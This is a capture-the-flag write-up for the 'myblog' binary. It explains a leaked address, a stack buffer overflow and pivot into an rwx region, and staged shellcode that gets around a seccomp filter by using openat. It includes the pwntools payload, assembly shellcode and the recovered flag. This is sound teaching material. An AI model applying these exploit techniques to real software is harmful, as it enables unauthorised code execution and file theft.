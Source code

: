 # myblog

The program offers a basic interface for managing post.
E.g. option 3 can be used to set the blog owner.
Any operation will result in an exit after completion.
```
1. Write a blog post
2. Delete a blog post
3. Show the blog owner
4. Exit
```

A first quick analysis reveals some intresting facts.
First of all, a memory section with rwx privileges is allocated, this could be interesting for storing shellcode.
Second, thr program uses seccomp, therefore some system calls might be disallowed.
```
[...]
mmap(0x656ca000, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)
[...]
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)  = 0
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len=11, filter=0x7ffefe130eb0}) = 0
[...]
```

# Backdoor
By reverse engineering we found a hidden option with the id 31337.
This method will give us its own address and therefore can be used to compute the binary base.

```C
int backdoor() {
    puts(0x15d8);
    printf("I will give you a gift %p\n", backdoor);
```

In addition a 16 byte stack based buffer overflow is given, what allow us to control rip and rbp.
Sadly this is not enough to store a complete rop chain.

```assembly
sub        rsp, 0x10
[...]
lea        rax, qword [rbp+8]
mov        edx, 0x18                                   ; argument "nbyte" for method j_read
mov        rsi, rax                                    ; argument "buf" for method j_read
mov        edi, 0x0                                    ; argument "fildes" for method j_read
mov        eax, 0x0
call       j_read
```

Additionally, a check is performed, if rip and rbp are pointing to the first 0xfff bytes of the binary.
This limit our usable targets, as we can not jump to any function using syscalls.
Even though, we can jump into the menu handler and call `delete_post`, `write_post` methods, so we can reuse them.


# Executing 7 bytes
An interesting function to use is the `show_owner` as it can be used to change the blog owner (7 Bytes), which is stored in the rwx section.
A pointer to this section is located in the .bss segment.
Therefore we approach the following stack layout for our buffer overflow and stack pivot:


```
.stack
+-----------------+
| new rbp         |
+-----------------+
| call_show_owner |
+-----------------+ <- rbp
| ...             |

.bss
+-----------------+
| rwx_ptr         |
+-----------------+
|                 |
+-----------------+ <- new rbp
```

The strategy would be:
1. call show owner
2. write 7 bytes of shellcode
3. return to menu handler
4. exit, jmp to rwx section



```python
call_show_owner =  blog_base_ptr + 0x10c2
rwx_ptr =  blog_base_ptr + 0x202048
payload = "AAAAAAAA"
payload += pwn.p64(rwx_ptr-8) #rbp
payload += pwn.p64(call_show_owner) #rip
r.send(payload)
```

# Executing arbitrary shell

As the maximum shellcode length is limited to 7 bytes, we need a way to read more shellcode.
As rax is already set to 0 (`sys_read`) we can try to directly write to the rwx memory section
The rdi register defines the maximum number of bytes to be read and is a random pointer, therfore this register needs no changes.
We only need to point rsi to the rwx section.
As rsp is already pointing below the rwx pointer in the .bss section we can use the following shellcode, what compiles to exactly 7 bytes.

```
shellcode = "sub rsp,8; pop rsi; syscall"
shellcode = pwn.asm(shellcode)
r.send(shellcode)
```

We send our shellcode shellcode with 7 bytes of padding, so it will be executed directly after the `read` system call returns.

# Seccomp

Even though we can execute arbitrary code, we are not finished yet as seccomp is used to blacklist some systemcalls.
`seccomp-tools` (https://github.com/david942j/seccomp-tools) can be used to disassemble these rules and show them in a human readable format.

```
seccomp-tools dump ./myblog

 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0010
 0005: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0010
 0006: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0010
 0008: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Execve is blocked, therefore, we cannot execute `execve("/bin/sh", NULL, NULL)` directly.
Open is blocked, therefore we should not be able to open files and read the Flag.
Even though `open_at syscall()` is not blocked, what allows us to open a file in a directory.
This syscall requires the following arguments:

| Register | Description |
|----------|-------------|
| rdi | Directory file Descriptor (will be ignored for an absolute path) |
| rsi | Filename |
| rdx | Flags |
| r10 | Mode |

Therefore we can use the following shellcode to opena file, read 1024 bytes and write it to stdout.

```assembly
    jmp str;
ret:
    pop rsi;
    xor rdi, rdi;
    xor rdx, rdx;
    xor r10, r10;
    mov eax, 257;
    syscall

    mov rdi, rax;
    mov rsi, rsp;
    mov rdx, 1024;
    mov eax, 0;
    syscall;

    mov rdi, 1;
    mov eax, 1;
    syscall;

    mov eax, 60;
    syscall

str:
    call    ret
    .string "the filename goes here"
```

And finally recover the flag: ASIS{526eb5559eea12d1e965fe497b4abb0a308f2086}
